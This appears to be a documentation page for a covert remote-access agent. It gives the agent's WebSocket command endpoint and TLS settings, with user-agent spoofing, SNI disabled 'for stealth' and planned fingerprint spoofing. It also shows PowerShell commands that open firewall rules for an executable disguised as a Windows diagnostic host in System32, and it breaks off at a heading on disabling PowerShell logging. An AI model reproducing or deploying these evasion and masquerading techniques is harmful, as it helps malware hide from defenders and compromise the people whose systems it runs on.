 ## Network Configuration

| Setting | Value |
|---------|-------|
| **Primary Endpoint** | `wss://agents.high.support:4445/agent.ashx` |
| **Protocol** | WebSocket Secure (WSS) |
| **User-Agent** | `Microsoft-CryptoAPI/10.0` |
| **SNI** | `null` (disabled for stealth) |
| **Host Header** | `null` (uses endpoint domain) |
| **ALPN** | `http/1.1` |

### TLS Configuration

```json
{
  "alpn": ["http/1.1"],
  "userAgent": "Microsoft-CryptoAPI/10.0",
  "ja3": null  // Future: JA3 fingerprint spoofing
}
```

---

## Firewall Rules

**Rule Name:** `WinDiagnosticHost-In` / `WinDiagnosticHost-Out`

**Auto-Created When:** `STEALTH_FIREWALL=1` (default)

**Configuration:**
```powershell
# Inbound
New-NetFirewallRule -DisplayName "WinDiagnosticHost-In" `
                    -Direction Inbound `
                    -Program "C:\Windows\System32\DiagnosticHost\diaghost.exe" `
                    -Action Allow `
                    -Profile Any

# Outbound
New-NetFirewallRule -DisplayName "WinDiagnosticHost-Out" `
                    -Direction Outbound `
                    -Program "C:\Windows\System32\DiagnosticHost\diaghost.exe" `
                    -Action Allow `
                    -Profile Any
```

---

## PowerShell Logging Disable
